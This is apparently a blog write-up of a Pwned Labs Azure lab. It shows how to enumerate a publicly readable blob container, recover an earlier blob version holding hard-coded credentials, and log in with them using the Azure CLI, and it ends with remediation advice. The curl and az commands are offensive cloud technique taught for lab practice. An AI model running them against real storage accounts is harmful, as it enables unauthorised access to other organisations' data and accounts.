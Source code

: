 ```yaml
---
title: Azure Blob Container to Initial Access
description: Azure Blob Container to Initial Access
image:
  path: azure.webp
categories:
- Pwned Labs
- Azure
layout: post
media_subpath: /assets/posts/labs/pwnedlabs/azure/
tags:
- pwnedlabs
- azure
- cloud
---
```

# Scenario

Mega Big Tech have adopted a hybrid cloud architecture and continues to use a local on-premise Active Directory domain, as well as the Azure cloud. They are wary of being targeted due to their importance in the tech world, and have asked your team to assess the security of their infrastructure, including cloud services. An interesting URL has been found in some public documentation, and you are tasked with assessing it.

Learning outcomes:


- Familiarity with the Azure CLI
- Identification and enumeration of Azure Blob Container
- Leverage blob previous version functionality to reveal secrets
- Understand how this attack chain could have been prevented

# Walkthrough
We are given URL: `http://dev.megabigtech.com/$web/index.html`. Let's check the content. It seems like it's a static page.

![](azure-blob-container-to-initial-access-1.png)

The page includes static files from [Azure Blob Storage](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction), which is Microsoft's object storage solution for the cloud. This can be confirmed by [endpoint format](https://cloud.hacktricks.wiki/en/pentesting-cloud/azure-security/az-services/az-storage.html#storage-endpoints)

![](azure-blob-container-to-initial-access-2.png)

We can also try accessing `https://mbtwebsite.blob.core.windows.net/$web/index.html` to confirm that site is hosted on Azure Blob Storage. This can also be confirmed via `curl` (`Server: Blob Service Version 1.0 Microsoft-HTTPAPI/2.0` header) or `Invoke-WebRequest` (`x-ms-blob-type: BlockBlob` header)
```
└─$ curl -I https://mbtwebsite.blob.core.windows.net/$web/index.html                                                       
HTTP/1.1 400 One of the request inputs is out of range.
Transfer-Encoding: chunked
Server: Blob Service Version 1.0 Microsoft-HTTPAPI/2.0
x-ms-request-id: 2132b9e2-801e-0010-2870-058957000000
Date: Mon, 04 Aug 2025 18:49:27 GMT
```
```
└─PS> Invoke-WebRequest -Uri 'https://mbtwebsite.blob.core.windows.net/$web/index.html' -Method Head | Select-Object -ExpandProperty Headers
                                                                                                                        
Key               Value
---               -----
ETag              {0x8DBD1A84E6455C0}
Server            {Windows-Azure-Blob/1.0, Microsoft-HTTPAPI/2.0}
x-ms-request-id   {01973c31-b01e-0024-2470-05ba9f000000}
x-ms-version      {2009-09-19}
x-ms-lease-status {unlocked}
x-ms-blob-type    {BlockBlob}
Date              {Mon, 04 Aug 2025 18:50:06 GMT}
Content-Length    {782359}
Content-Type      {text/html}
Content-MD5       {JSe+sM+pXGAEFInxDgv4CA==}
Last-Modified     {Fri, 20 Oct 2023 20:08:20 GMT}
```

We can continue examining Azure Blob Storage. It [consists of several parts](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#blob-storage-resources)

![](azure-blob-container-to-initial-access-3.png)

Based on [Microsoft documentation](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#blob-storage-resources), we can digest `https://mbtwebsite.blob.core.windows.net/$web/index.html`

- `https`: Protocol
- `mbtwebsite`: [Storage account name](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#storage-accounts)
- `blob.core.windows.net`: [Azure Storage service endpoint](https://learn.microsoft.com/en-us/azure/storage/common/storage-account-overview?toc=%2Fazure%2Fstorage%2Fblobs%2Ftoc.json&bc=%2Fazure%2Fstorage%2Fblobs%2Fbreadcrumb%2Ftoc.json#standard-endpoints)
- `$web`: [Container name](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#containers)
- `index.html`: file requested

We can use the following [documentation](https://learn.microsoft.com/en-us/rest/api/storageservices/list-blobs?tabs=microsoft-entra-id) to enumerate Azure Blob Storage. 

Let's list the blobs and directories
```
https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list
```
```
https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list&delimiter=%2F
```

![](azure-blob-container-to-initial-access-4.png)

Nothing interesting, but we can try checking for [blob versioning](https://learn.microsoft.com/en-us/azure/storage/blobs/versioning-overview), which is maintains previous versions of a blob.
```
https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list&include=versions
```
If we try checking for versions, we get an error. It seems like based on [documentation](https://learn.microsoft.com/en-us/rest/api/storageservices/list-blobs?tabs=microsoft-entra-id#uri-parameters) `include=versions` parameter is supported by version `2019-12-12` 

![](azure-blob-container-to-initial-access-5.png)

We can specify it by setting the `x-ms-version` header
```
curl -H "x-ms-version: 2019-12-12" 'https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list&include=versions' | xmllint --format - | less
```

We find blob `scripts-transfer.zip` and the version ID that we can use to download

![](azure-blob-container-to-initial-access-6.png)

```
└─$ curl -H "x-ms-version: 2019-12-12" 'https://mbtwebsite.blob.core.windows.net/$web/scripts-transfer.zip?versionId=2025-02-18T00:29:19.3854225Z' --output scripts-transfer.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1606  100  1606    0     0   1945      0 --:--:-- --:--:-- --:--:--  1944
```

Content of the zip archive
```
└─$ unzip scripts-transfer.zip             
Archive:  scripts-transfer.zip
  inflating: entra_users.ps1         
  inflating: stale_computer_accounts.ps1
```

Inside we find credentials

![](azure-blob-container-to-initial-access-7.png)

We can try both credentials, but only `marcus@megabigtech.com` works
```
└─$ az login -u marcus@megabigtech.com -p '<REDACTED>'   
Starting September 1, 2025, MFA will be gradually enforced for Azure public cloud. The authentication with username and password in the command line is not supported with MFA. Consider using one of the compatible authentication methods. For more details, see https://go.microsoft.com/fwlink/?linkid=2276314                                                                                                                                                                      
[
  {
    "cloudName": "AzureCloud",
    "homeTenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "id": "ceff06cb-e29d-4486-a3ae-eaaec5689f94",
    "isDefault": true,
    "managedByTenants": [],
    "name": "Microsoft Azure Sponsorship",
    "state": "Enabled",
    "tenantDefaultDomain": "megabigtech.com",
    "tenantDisplayName": "Default Directory",
    "tenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "user": {
      "name": "marcus@megabigtech.com",
      "type": "user"
    }
  }
]
```
```
$Username = "marcus@megabigtech.com"
$Password = "<REDACTED>" | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential ($Username, $Password)
Connect-AzAccount -Credential $Credential
```

To get the flag
```
└─$ az ad signed-in-user show
{
  "@odata.context": "https://graph.microsoft.com/v1.0/$metadata#users/$entity",
  "businessPhones": [],
  "displayName": "Marcus Hutch",
  "givenName": "Marcus",
  "id": "41c178d3-c246-4c00-98f0-8113bd631676",
  "jobTitle": "Flag: <REDACTED>",
  "mail": null,
  "mobilePhone": null,
  "officeLocation": null,
  "preferredLanguage": null,
  "surname": "Hutch",
  "userPrincipalName": "marcus@megabigtech.com"
}
```
```
Get-AzADUser -SignedIn | fl
```

## Remediation
This section is from [Walkthrough section](https://pwnedlabs.io/labs/azure-blob-container-to-initial-access) of the lab.

The entire blob container is accessible by anonymous users and world-readable, when just the website files should have been configured to be publicly accessible.

![](azure-blob-container-to-initial-access-8.png)

This means that a previous version of a sensitive file was also publicly discoverable and readable. To mitigate this issue, the previous version should be deleted.

![](azure-blob-container-to-initial-access-9.png)

To do it via Azure CLI, the following command could be used after setting the storage account context with `Set-AzCurrentStorageAccount`
```
Remove-AzStorageBlob -Container '$web' -Blob scripts-transfer.zip -VersionId "2024-03-29T20:55:40.8265593Z"
```

Moreover, it's not recommended to hard-code credentials in scripts. Credentials should be stored in a PAM (Privileged Access Management) system, password manager or using a service such as Azure Key Vault. Key Vault allows you to securely store and access keys, passwords, certificates, and other secrets. 

Check other [community walkthroughs](https://youtu.be/L0eM8RCqJV0)